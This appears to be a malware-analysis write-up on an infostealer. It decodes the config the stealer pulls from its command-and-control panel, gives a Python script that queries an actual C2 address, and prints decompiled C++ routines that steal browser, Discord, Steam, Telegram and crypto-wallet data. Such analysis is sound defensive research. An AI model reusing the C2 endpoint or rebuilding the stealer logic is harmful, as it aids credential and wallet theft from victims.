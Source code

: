 One of the things that malware does after getting ip c2 is to get the config from the web panel.

```
1,1,1,1,0,01d840b66e79a2d9df6676ce25834f97,1,1,1,1,0,Default;%DOCUMENTS%\;*.txt;50;true;*windows*;,1
```

Parameters are responsible for enabling and disabling the collection functions, such as collecting discord, crypto wallets, ssnf steam data, as well as paths and types of files to be collected by filegrabber, whether stealer needs to delete itself after completion.

```python
import requests

settings_list = ["unknown param : ","unknown param : ","unknown param : ","steal Crypto Wallet : ","steal Discord Data : ","unknown param : ","unknown param : ","grab screenshot : ","unknown param : ","grab steam : ","unknown param : ","file grab list : ","self delete : "]
c2_cfg = 'http://157.90.152.131:2083/dbc6cdbef612cd0a4cea9b2f05f89628'

header = {"User-Agent":"Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:110.0) Gecko/20100101 Firefox/119.0"}
c = requests.get(c2_cfg,headers=header)
splited = c.text.split(",")

print("[+] Config : ")

count = 0
for a in splited:
    print(settings_list[count]," ",a)
    count+=1
```

I wrote a simple script in python that helps to determine which parameter is responsible for what, but because of, due to my laziness half of the parameters are marked as unknown.

# Data stealing

Data collection as in other stealers are several functions designed to collect browser, discord, steam, telegram, crypto wallets and general information about the victim's computer.

```cpp
steal_broweser_data_and_tg((int)v35, (int)v40, v41);
if ( steam_steal_config )
    steal_steam_data();
if ( discord_steal_config )
    steal_discord_data();
  get_computer_info((_DWORD *)dword_449480);
if ( crypto_wallet_steal_config )
    steal_crypto_wallet(v59, dword_449480);
  file_grab((const CHAR *)file_grab_list, (_DWORD *)dword_449480);
if ( get_screenshot_config )
    get_screenshot(70, (_DWORD *)dword_449480);
```
